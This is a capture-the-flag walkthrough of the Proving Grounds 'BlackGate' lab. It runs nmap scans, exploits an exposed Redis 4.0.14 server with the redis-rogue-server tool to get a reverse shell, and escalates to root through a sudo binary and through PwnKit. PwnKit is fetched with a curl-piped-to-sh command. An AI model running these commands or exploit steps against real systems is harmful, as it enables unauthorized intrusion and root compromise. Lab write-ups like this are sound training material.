Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.165.176
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-07 16:06 IST
Nmap scan report for 192.168.165.176
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 14.60 seconds
```
```sh
nmap -sC -sV -T4 -Pn -p 22,6379 192.168.165.176 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-07 16:07 IST
Nmap scan report for 192.168.165.176
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 37:21:14:3e:23:e5:13:40:20:05:f9:79:e0:82:0b:09 (RSA)
|   256 b9:8d:bd:90:55:7c:84:cc:a0:7f:a8:b4:d3:55:06:a7 (ECDSA)
|_  256 07:07:29:7a:4c:7c:f2:b0:1f:3c:3f:2b:a1:56:9e:0a (ED25519)
6379/tcp open  redis   Redis key-value store 4.0.14
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```
 Enumerated redis with nmap scripts which revealed us the redis version running that was – **4.0.14**
From Hacktricks:

_Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker (from ). By default and commonly Redis uses a plain-text based protocol, but you have to keep in mind that it can also implement ssl/tls._

## Gaining a Foothold

### Following Hacktrick “Redis RCE” section,download the exploit below:

https://github.com/n0b0dyCN/redis-rogue-server


**Use the exploit in below mentioned manner only otherwise it will give continuous errors.**
```sh
 python3 redis-rogue-server.py --rhost 192.168.165.176 --lhost 192.168.45.240
```


Before entering reverse server address and port, we started nc and got local flag.


### Privilege Escalation
#### Method 1

Now in the user’s directory there’s a note.txt file

We checked for sudo permissions.


So lets run it and see what happens. But it asks for authorization key

Running strings on the binary leaks the authorization key

Now lets rerun the binary since we have the key now.

So we can keep on scrolling down

Now there are two ways I got around getting root

The first one is likely unintended anyways lets see it
What i did next was to try call /bin/bash
`/bin/bash`


#### Method 2
When we ran linpeas, we saw kernel vulnerabilities that linpeas found.

https://github.com/ly4k/PwnKit?source=post_page-----49920d4188de---------------------------------------


```sh
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```



Blogs we followed:
https://medium.com/@huwanyu94/proving-grounds-practice-blackgate-walkthrough-9ec512acd0de
https://medium.com/@gleasonbrian/offsec-proving-grounds-blackgate-writeup-49920d4188de
https://markuched13.github.io/posts/pg/blackgate.html
